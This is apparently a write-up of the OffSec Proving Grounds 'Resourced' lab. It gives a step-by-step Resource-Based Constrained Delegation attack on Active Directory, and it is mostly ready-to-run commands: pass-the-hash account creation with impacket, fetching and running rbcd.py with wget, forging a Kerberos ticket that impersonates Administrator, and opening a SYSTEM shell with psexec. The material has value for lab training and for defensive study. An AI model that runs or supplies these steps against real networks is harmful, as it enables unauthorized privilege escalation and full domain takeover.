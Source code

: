 # GenericAll permissions to the computer
Full control of a computer object can be used to perform a **Resource-Based Constrained Delegation** attack.
# Resource-Based Constrained Delegation (RBCD) attack
![image](https://github.com/user-attachments/assets/4df51b16-fb7c-4262-8d8c-e811e3e9586f)
## Linux Abuse
1. if an attacker does not control an account with an SPN set, a new attacker-controlled computer account can be added :
``` shell
impacket-addcomputer Domain/user -dc-ip <Domain-IP> -hashes :<ntlm> -computer-name 'dork' -computer-pass 'dork'
```
Example
```shell
impacket-addcomputer resourced.local/l.livingstone -dc-ip Resourced -hashes :19a3a7550ce8c505c2d46b5e39d6f808 -computer-name 'dork' -computer-pass 'dork'
```
![image](https://github.com/user-attachments/assets/fc9729cc-abc7-451a-8fbe-4287acd7dcbf)
2. Check if computer added from attacker side machine
```powershell
Get-ADComputer dork
```
![image](https://github.com/user-attachments/assets/183f67bd-7adf-4a5d-94df-39b3960913a8)
3. Modify Delegation Rights Using rbcd.py
```shell
wget https://raw.githubusercontent.com/tothi/rbcd-attack/master/rbcd.py
sudo python3 rbcd.py -dc-ip <Domain-IP> -t <Target-computer-hostname> -f <(Fake)-computer-hostname> -hashes :NTLM Domain\\user
```
![image](https://github.com/user-attachments/assets/cfbda49d-da17-46e1-ab23-c73a88ccaed3)

Example
```shell
sudo python3 rbcd.py -dc-ip Resourced -t RESOURCEDC -f 'dork' -hashes :19a3a7550ce8c505c2d46b5e39d6f808 resourced\\l.livingstone
```
![image](https://github.com/user-attachments/assets/d62da4f0-1f86-42c5-bedb-5a4ba5cf2101)
4. Obtain a Privileged Kerberos Ticket Using impacket-getST
```shell
impacket-getST -spn cifs/resourcedc.resourced.local resourced/dork\$:'dork' -impersonate Administrator -dc-ip Resourced
```
![image](https://github.com/user-attachments/assets/686dc8d6-6f77-495b-b208-f9d40bf03300)
5. Rename Saved Tickets
```shell
mv Administrator@cifs_resourcedc.resourced.local@RESOURCED.LOCAL.ccache Administrator.ccache
```
6. Prepare the machine to use the ticket
```shell
sudo sh -c 'echo "192.168.180.175 resourcedc.resourced.local" >> /etc/hosts'
```
7. We need to export a new environment variable named KRB5CCNAME with the location of this file.
``` shell
export KRB5CCNAME=/home/kali/<KeyFolderPath>/Administrator.ccache
```
7. run impacket-psexec to drop us into a system shell.
```shell
sudo impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip $IP
```
![image](https://github.com/user-attachments/assets/0604ac0e-3188-4ea8-973e-8792095dc811)

### Machine Name Offsec [PG](https://portal.offsec.com/labs/practice) Resourced

